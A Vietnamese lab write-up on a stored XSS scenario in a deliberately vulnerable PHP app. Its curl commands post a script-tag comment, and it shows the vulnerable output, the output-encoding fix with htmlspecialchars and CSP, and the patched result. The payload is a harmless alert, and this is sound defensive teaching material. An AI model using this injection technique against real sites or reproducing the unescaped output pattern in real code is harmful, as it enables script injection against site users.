



# Kịch bản 1. Stored XSS

Tài liệu này trình bày riêng kịch bản, quy trình kiểm chứng, kết quả và biện pháp phòng thủ. Quy ước môi trường chung nằm trong [hướng dẫn kịch bản Web](../README.md).

## Lý thuyết

Dữ liệu do người dùng gửi được lưu vào cơ sở dữ liệu và hiển thị lại mà không được mã hóa.

## Kỹ thuật và công cụ sử dụng

Lưu dữ liệu đầu vào chứa mã đánh dấu vào bình luận, sau đó kiểm tra cách trang kết xuất lại nội dung.

**Dữ liệu thử:** Thẻ `<script>` minh họa chỉ trong dữ liệu lab.

**Công cụ và giao diện:** Trình duyệt hoặc `curl`; tài khoản `bien`; bài viết mẫu `id=1`.

**Mã nguồn liên quan:** [`app/views/post.php`](../../../../app/views/post.php), [`app/src/Core/Lab.php`](../../../../app/src/Core/Lab.php).

## Môi trường và dữ liệu thử

Đăng nhập bằng `bien`. Bài viết `id=1` đã xuất bản và cho phép bình luận.

## Cách thực hiện

```bash
# Lấy mã CSRF của biểu mẫu bình luận
curl -sS -b "$JAR" -c "$JAR" "$BASE/post?id=1" -o /tmp/post.html
token="$(sed -n 's/.*name="_csrf" value="\([^"]*\)".*/\1/p' /tmp/post.html | head -1)"

# Gửi bình luận chứa mã script
curl -sS -b "$JAR" -c "$JAR" \
  --data-urlencode "post_id=1" \
  --data-urlencode "body=<script>alert('stored-demo')</script>" \
  --data-urlencode "_csrf=$token" \
  -o /dev/null -w '%{http_code}\n' "$BASE/comment"

# Mở lại bài viết
curl -sS "$BASE/post?id=1" | grep -n "stored-demo"
```

## Kết quả trên cấu hình có lỗi

```text
302
... <script>alert('stored-demo')</script> ...
```

Mã script nằm nguyên trong HTML trả về. Khi mở bài viết bằng trình duyệt, hộp thoại `stored-demo` xuất hiện. Đoạn mã nằm trong `app/views/post.php`; cấu hình có lỗi in trực tiếp `$comment['body']`.

## Biện pháp phòng thủ

Mã hóa đầu ra theo ngữ cảnh HTML bằng `htmlspecialchars` với `ENT_QUOTES` và `ENT_SUBSTITUTE`. Trong mã nguồn, cấu hình đã vá dùng `nl2br(e($comment['body']))`. CSP `script-src 'self'` là lớp bổ sung, không thay thế mã hóa đầu ra.

## Kết quả trên cấu hình đã vá

Gửi lại cùng nội dung với mã CSRF hợp lệ:

```bash
curl -sS "$BASE/post?id=1" | grep -n "stored-demo"
```

Kết quả:

```text
... &lt;script&gt;alert(&#039;stored-demo&#039;)&lt;/script&gt; ...
```

Trình duyệt hiển thị chuỗi văn bản, không thực thi mã. Mã trạng thái gửi bình luận là `302`.

## Dọn dữ liệu sau kiểm thử

```bash
docker compose down -v
docker compose up -d --build
```


## Ảnh minh chứng

**Stored XSS: nhập payload tại ô bình luận.**



**Stored XSS: kết quả trên bản có lỗi.**



**Stored XSS: kết quả trên bản đã vá.**


